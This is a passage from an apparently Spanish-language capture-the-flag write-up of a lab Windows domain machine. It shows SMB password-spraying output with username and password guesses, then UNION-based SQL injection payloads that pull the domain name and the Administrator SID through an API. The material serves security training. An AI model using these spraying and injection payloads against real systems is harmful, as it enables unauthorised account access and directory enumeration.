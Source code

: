 ```null
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\shayna:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\shayna:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\zac:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\zac:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\zpowers:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\zpowers:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\zpowers:banking1 STATUS_LOGON_FAILURE 
```

Podría tratar de enumerar información de los usuarios del Directorio Activo a través de la inyección SQL

Por ejemplo, para ver el nombre del dominio puedo introducir lo siguiente:

```null
-> test' union select 1,default_domain(),3,4,5-- -
[
     {
          "id": 1,
          "name": "MEGACORP",
          "position": "3",
          "email": "4",
          "src": "5"
     }
]
```

Introduzco una query que me permite ver la combinación de la suma del RID + SID

```null
-> test' union select 1,SUSER_SID('MEGACORP\Administrator'),3,4,5-- -
[
     {
          "id": 1,
          "name": "\u0001\u0005\u0000\u0000\u0000\u0000\u0000\u0005\u0015\u0000\u0000\u0000\u001c\u0000\u00d1\u00bc\u00d1\u0081\u00f1I+\u00df\u00c26\u00f4\u0001\u0000\u0000",
          "position": "3",
          "email": "4",
          "src": "5"
     }
]
```

Está en formato unicode, el mismo que utilicé para la inyección SQL

